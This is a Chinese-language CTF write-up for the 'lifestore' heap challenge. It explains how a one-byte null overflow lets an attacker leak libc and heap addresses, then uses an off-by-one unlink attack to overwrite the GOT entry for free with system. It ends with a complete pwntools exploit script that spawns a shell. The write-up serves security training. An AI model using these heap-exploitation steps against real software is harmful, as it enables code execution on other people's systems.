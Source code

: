 # AAA内训题 lifestore

这道题想了好久都没想出来，就是不知道怎么 info leak。

后来发现这道题的作者简直满满的提示啊，怎么 info leak。很多代码都是作者为了让我们 info leak 而故意这样设置的，而我却没有看出来，或者说看出来了但是只在脑袋中一闪而过，没有去仔细的思考揣摩作者的意图。



## info leak

这道题的用到的结构体如下

```C
00000000 skill_st        struc ; (sizeof=0xFC, mappedto_2)
00000000 name            db 136 dup(?)
00000088 priority        db 72 dup(?)
000000D0 name_len        dd ?
000000D4 level           db 40 dup(?)
000000FC skill_st        ends
```



这道题的 get_input 函数在末尾会插\0， 造成了一个字节的溢出。但是因为插\0,所以给 info leak 造成了困难。但是这个函数的 len 参数如果是0的话，就会什么都不做直接返回了。所以要从这里入手。

```C
unsigned int __cdecl get_input(char *s, unsigned int len)
{
  int j; // eax@6
  char buf[1]; // [esp+Bh] [ebp-Dh]@4
  unsigned int i; // [esp+Ch] [ebp-Ch]@3

  if ( !len )                                   // 这里如果是0的话，就能不在最后加上\x00了
    return 0;
  i = 0;
  while ( i < len )
  {
    read(0, buf, 1u);
    if ( buf[0] == '\n' )
    {
      s[i] = 0;
      return i;
    }
    j = i++;
    s[j] = buf[0];
  }
  s[i] = 0;                                     // 溢出一个字节
  return i;
}
```

交叉引用查看对这个函数的调用发现在 Add_skill 的时候，有一处地方 get_input 的 len 参数是可控的。

```C
 get_input(p->priority, 72u);                  // 这里有可能 leak, off by one，最后会溢出一个字节，写入\x00， 正好覆盖掉name_len
  printf("the name of this skill plz:");
  get_input(p->name, p->name_len);	//len 参数可控
  printf("finally, how strong you want this skill to be? :");
  get_input(p->level, 40u);                  
```

虽然之前输入 name_len之后有判断len不能为0

```C
 if ( len > 135 || !len )
    return puts("invalid name length\n");       
```

但是调用`get_input(p->priority, 72u);`的时候因为会溢出一个字节，正好能把后面的name_len字段给覆盖成0。 

所以最后的思路就是先 malloc 一个 skill 结构体，然后 free 掉，再 malloc，name 字段不输入任何字符，再 list_skills 就可以 leak 出 libc 或者 heap 的地址。



## 利用 off by one

接下来就是常见的 off by one 的堆利用了。由于这道题的作者别有用心的把pSkills_arr 这个结构体数组放在了堆上，所以很容易想到如果能够篡改这个数组里的信息就可以任意地址写了。

思路是在堆里布置两个 chunk，利用 off by one 把第二个 chunk 的 PREV_IN_USE flag 置为0，同时把 prev_size 字段改成第二个 chunk 离堆的第一个 chunk（存放pSkills_arr数组）的距离。这样在 free 的时候就会以为之前那个 chunk 是空闲的，然后把它 unlink 出来，合并成一个更大的 free chunk。但是要注意 unlink 的时候有 check FD->BK=BK->FD， 这个绕过一下就可以了。

再之后 Add_skill 的时候 malloc 的块就覆盖了pSkills_arr数组的区域了，然后篡改数组的某一项指向 got 表，某一项指向libc中的"/bin/sh"字符串，修改 got 表中的 free 为 system 函数的地址，然后free 某一个 chunk 就可以了。



## exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='i386', os='linux', log_level='info')
context(terminal=['gnome-terminal', '-x', 'zsh', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

def gen_rop(func_addr, args):
    """
    automate generate rop function
    _gadgets array contains gadgets address for 0,1,2,... args
    """
    _gadgets = []
    rop = ""
    rop += p32(func_addr)
    if len(args) > 1:
        rop += _gadgets[len(args)]
        for arg in args:
            rop += p32(args)
    return rop


_program = 'lifestore'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    os.environ['LD_PRELOAD'] = ''
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    p = remote('8.8.8.8', 4002)	#todo

def add_skill(name_len, name, priority, level):
    p.recvuntil("choice:")
    p.sendline("1")
    p.sendlineafter("skill(<136):", str(name_len))
    p.sendafter("how important this skill shall be?", priority)
    p.sendafter("skill plz:", name)
    p.sendafter("how strong you want this skill to be?", level)

def list_skills():
    p.sendlineafter("choice:", "2")
    p.recvuntil("level\n")
    p.recvuntil("\t")
    name = p.recvn(16)
    print "name:", name
    return name

def edit_skill(idx, name, priority, level):
    p.sendlineafter("choice:", "3")
    p.sendlineafter("the index of the skill you wanna edit:", str(idx+1))
    if(p.recvuntil("invalid index", timeout=0.2)):
        raise Exception
    p.sendafter("how important this skill shall be?", priority)
    p.sendafter("the name of this skill plz", name)
    p.sendafter("how strong you want this skill to be?", level)

def delete_skill(idx):
    p.sendlineafter("choice:", "4")
    p.sendlineafter("the index of the skill you wanna delete:", str(idx+1))
    if(p.recvuntil("invalid index!", timeout=0.2)):
        raise Exception

###########################   leak libc ###########################################
add_skill(1, 'A' * 1, 'A' * 70 + '\n', 'A' * 39 + '\n')
add_skill(1, 'A' * 1, 'A' * 70 + '\n', 'A' * 39 + '\n')
delete_skill(0)

add_skill(1, '', 'A' * 72, 'A' * 39 + '\n')
leak = list_skills()
addr_of_libc = u32(leak[:4])
libc.address = addr_of_libc - 1779632
print("libc base addr:%s" % hex(libc.address))

delete_skill(0)
delete_skill(1)
########################### leak heap     ###########################################
add_skill(1, 'A' * 1, 'A' * 70 + '\n', 'A' * 39 + '\n')
add_skill(1, 'A' * 1, 'A' * 70 + '\n', 'A' * 39 + '\n')
add_skill(1, 'A' * 1, 'A' * 70 + '\n', 'A' * 39 + '\n')
add_skill(1, 'A' * 1, 'A' * 70 + '\n', 'A' * 39 + '\n')

delete_skill(0)
delete_skill(2)
add_skill(1, '', 'A' * 72, 'A' * 39 + '\n')
leak = list_skills()
heap_base = u32(leak[4:8]) - 0x258
print "heap base addr:", hex(heap_base)

delete_skill(0)
delete_skill(1)
delete_skill(3)
############################   off by one ##########################################
add_skill(100, 'A' * 12 + p32(heap_base) + '\n', 'A' * 70 + '\n', 'A' * 39 + '\n')
add_skill(100, 'A' * 8 + p32(heap_base) + '\n', 'A' * 70 + '\n', 'A' * 39 + '\n')
prev_size = 0x158
edit_skill(0, 'A' * 1 + '\n', 'A' * 70 + '\n', 'A' * 36 + p32(prev_size))
delete_skill(1)

print hex(heap_base+16)
add_skill(100, p32(elf.got['free']- 0x88) + 'AAAA' + p32(libc.search('/bin/sh').next())+'sh\n', '\n', '\n')
raw_input("wait for gdb attach")
edit_skill(0, name='\n', priority=p32(libc.symbols['system']) + p32(libc.symbols['puts']) + '\n', level='\n')
delete_skill(2)

p.interactive()
```

